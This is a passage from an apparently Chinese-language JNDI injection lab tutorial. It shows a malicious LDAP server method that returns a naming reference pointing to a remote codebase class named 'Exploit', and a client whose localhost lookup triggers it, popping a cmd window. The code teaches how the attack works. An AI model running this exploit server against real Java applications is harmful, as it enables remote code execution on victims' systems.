        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

### LadpClient

```java
package jndi_labs2;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LdapClient {
    public static void main(String[] args) throws Exception{
        try {
            Context ctx = new InitialContext();
            ctx.lookup("ldap://localhost:1234/jndi_labs2.EvilObject");
            String data = "This is LDAP Client.";
        }
        catch (NamingException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
        }
    }
}
```

先运行LadpServer，再运行LadpClient，结果如下，恶意代码被执行，弹出了cmd窗口。



## 总结

JNDI注入攻击的本质其实就是修改绑定的对象，当客户端尝试获取对象时，让客户端获取到我们构造的恶意对象即可。